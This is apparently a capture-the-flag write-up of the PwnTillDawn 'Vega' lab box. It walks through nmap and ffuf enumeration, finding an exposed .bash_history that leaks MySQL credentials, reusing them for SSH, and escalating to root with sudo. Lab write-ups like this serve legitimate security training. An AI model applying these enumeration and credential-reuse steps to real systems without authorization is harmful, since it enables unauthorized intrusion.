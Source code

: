 # Vega


PwnTillDwn!!  
IP: 10.150.150.222  
OS: Linux  
Room link: https://online.pwntilldawn.com/Target/Show/3  
Credits:  
https://www.wizlynxgroup.com/  
https://online.pwntilldawn.com/ 


## Enum

I start off with a nmap scan to see whats open on the box. 

nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
8089/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Checking out the ports I found 2 web portals (logins) on ports 80, 10000 

```
http://10.150.150.222/
http://10.150.150.222:10000/
```

Enumerating the first port (80)

Main page

![image](https://user-images.githubusercontent.com/5285547/129267028-5957db22-1feb-4f75-b740-dc36ee56034d.png)

```
ffuf -u http://10.150.150.222/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -fc 403 -ic

index.php               [Status: 200, Size: 82798, Words: 35702, Lines: 1100]
robots.txt              [Status: 200, Size: 1, Words: 1, Lines: 2]
.cache                  [Status: 301, Size: 317, Words: 20, Lines: 10]
error.log               [Status: 200, Size: 39898, Words: 3781, Lines: 219]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118]
.bash_logout            [Status: 200, Size: 220, Words: 35, Lines: 8]
training.html           [Status: 200, Size: 36356, Words: 8770, Lines: 607]
.bash_history           [Status: 200, Size: 2235, Words: 176, Lines: 72]

ffuf -u http://10.150.150.222/pub/cms/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -fc 403 -ic

contact                 [Status: 200, Size: 28351, Words: 5860, Lines: 476]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1]
catalog                 [Status: 302, Size: 0, Words: 1, Lines: 1]
checkout                [Status: 302, Size: 0, Words: 1, Lines: 1]
pub                     [Status: 301, Size: 314, Words: 20, Lines: 10]
home                    [Status: 200, Size: 80260, Words: 34836, Lines: 1054]
cms                     [Status: 200, Size: 82800, Words: 35702, Lines: 1100]
wishlist                [Status: 302, Size: 0, Words: 1, Lines: 1]
setup                   [Status: 301, Size: 316, Words: 20, Lines: 10]
0                       [Status: 200, Size: 82786, Words: 35702, Lines: 1100]
soap                    [Status: 200, Size: 391, Words: 94, Lines: 14]
robots                  [Status: 200, Size: 1, Words: 1, Lines: 2]
                        [Status: 200, Size: 82789, Words: 35702, Lines: 1100]
no-route                [Status: 200, Size: 33616, Words: 7762, Lines: 560]
```

Intresting files. 

.bash_histroy  (First flag, flag40)

```
history
sudo apt-get update && apt-get upgrade -y
sudo apt install apache2
sudo systemctl enable apache2
sudo apt install mariadb-server
sudo a2enmod rewrite
sudo nano /etc/apache2/sites-available/magento2.example.com.conf
sudo a2dissite 000-default.conf
flag40=<REDACTED>
sudo systemctl reload apache2
sudo a2ensite magento2.example.com.conf
sudo systemctl reload apache2
cd /tmp/
cd logstalgia-1.0.3/
./configure
sudo passwd root
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc
./configure
make
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc++
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc
apt-get install make
mysql -u root -p
apt-get install grsync
apt-get install unison
unisonsudo systemctl restart apache2
ping 1.1.1.1
ping 8.8.8.8
sudo apt install software-properties-common
sudo apt-key adv --recv-keys --keyserver hkp://keyserver.ubuntu.com:80 0xF1656F24C74CD1D8
sudo add-apt-repository 'deb http://mirrors.coreix.net/mariadb/repo/10.2/ubuntu xenial main'
sudo apt update
echo FLAG40=<REDACTED>
sudo apt install mariadb-server -y
netstat -np | grep 22
mysql -u root -p
mysql -u magento -p
sudo apt install php7.0 php7.0-curl php7.0-mysql libapache2-mod-php7.0
sudo nano  /etc/php/7.2/cli/php.ini 
ipconfig
ifconfig
sudo nano  /etc/php/7.2/apache2/php.ini 
sudo nano /etc/apache2/sites-available/magento2.example.com.conf
sudo crontab -u vega -e
sudo systemctl restart apache2
sudo cat /var/log/apache2/error.log 
sudo chown -R www-data:www-data .
sudo nano /etc/apache2/sites-available/magento2.example.com.conf 
sudo /etc/init.d/apache2 restart
sudo nano /etc/apt/sources.list
cd /tmp/
wget http://www.webmin.com/jcameron-key.asc
sudo systemctl reload apache2
cd /tmp/
cd logstalgia-1.0.3/
./configure
cd /home/vega
ls -lah
ifconfig
sudo passwd rootsudo apt-key add jcameron-key.asc
sudo apt update 
sudo apt install webmin 
cd ..
history
mysqldump -u vega --password=<REDACTED> magento2 > dumpmagento.sql
cd /home/vega
ls -lah
ll
sudo su
cd /root/
nano CAM.shortcut
```

We get a username (vega) and password for mysql. 

---

## SSH (User Vega)

Now we try the ssh as vega using the mysql creds

```
ssh vega@10.150.150.222
# Make sure to correct the password spelling :)
```
Login and grab the user flag.

![image](https://user-images.githubusercontent.com/5285547/129271549-e9293549-e490-49eb-8d54-e7c081d89441.png)


---

## Root

Root is very simple on this box. 

```
sudo su
```

![image](https://user-images.githubusercontent.com/5285547/129271663-13878620-38b1-46c5-ae9f-126b0c585628.png)

Awesome box and gppod fun.
